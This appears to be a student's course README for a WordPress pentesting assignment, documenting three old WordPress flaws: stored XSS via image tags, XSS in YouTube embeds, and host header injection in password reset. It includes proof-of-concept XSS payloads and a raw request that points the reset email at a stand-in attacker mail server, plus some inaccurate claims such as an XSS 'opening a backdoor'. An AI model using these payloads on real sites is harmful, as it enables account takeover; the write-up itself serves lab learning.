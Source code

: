 # Assignment_7
# Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) VUlnerability Name or ID: Wordpress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename
  - [ ] Summary: Used wpscan to locate XSS vulnerability. Then look at steps to recreate. 
    - Vulnerability types:XSS
    - Tested in version: WP 4.2 
    - Fixed in version: WP 4.2.10
  - [ ] GIF Walkthrough: <a href="https://imgur.com/koN3Nea"><img src="https://i.imgur.com/koN3Nea.gif" title="source: imgur.com" /></a>
  - [ ] Steps to recreate: Login as admin. Go to create a page. Insert XSS into the headline of the page. View page. XSS will demonstrate. 
  - [ ] Affected source code: .....<div class="entry-content">
		<p class="p1"><span class="s1">&lt;IMG SRC=&#8221;#&#8221; ONERROR=&#8221;</span><span class="s2">alert(&#8216;XSS&#8217;)</span><span class="s1">&#8220;/&gt;</span></p>.....
			</div><!-- .entry-content -->
    - [Link 1](https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
1. (Required) Vulnerability Name or ID: WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: Script opens backdoor that gives attacker access to the site. 
    - Vulnerability types: XSS
    - Tested in version: WP 4.2
    - Fixed in version: WP 4.2.13
  - [ ] GIF Walkthrough: <a href="https://imgur.com/88S3nye"><img src="https://i.imgur.com/88S3nye.gif" title="source: imgur.com" /></a>
  - [ ] Steps to recreate: Find youtube video link to embed. Use the following code on the end x3csvg onload=alert(1)x3e’ Open backdoor to site.
  - [ ] Affected source code:<iframe width="560" height="315" src="’https://www.youtube.com/embed/fWeR6UhHRAM\x3csvg onload=alert(1)x3e’" frameborder="0" allowfullscreen></iframe>
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name or ID: WordPress 2.3-4.8.3 - Host Header Injection in Password Reset
  - [ ] Summary: We can manipulate the URL into revealing the admin username. In addition, we can also use a tool like burp to reset the admin password. 
    - Vulnerability types: User Enumeration/ Priviledge Escalation
    - Tested in version: WP 4.2
    - Fixed in version: WP 4.7.4
  - [ ] GIF Walkthrough: <a href="https://imgur.com/E1Nmx8l"><img src="https://i.imgur.com/E1Nmx8l.gif" title="source: imgur.com" /></a>
  - [ ] Steps to recreate: I just tested the URL as my Burp has been acting up...but I am going to post the content I found for that here too. I just added http://wpdistillery.local/wp-login.php?action=adminlostpassword%20HTTP/1.1 an extra little bit of code to the url in order to get the admin username. I could take it a step further and request a new password for the admin and have it sent to my email of choice by sending the email to an email server of my choice and modifying burp in the following manner:
  POST /wp/wordpress/wp-login.php?action=lostpassword HTTP/1.1
  HOST: injected-attackers-mxserver.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 56
  
  user login=admin&redirect to=wp-submit=Get+New+Password
  
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

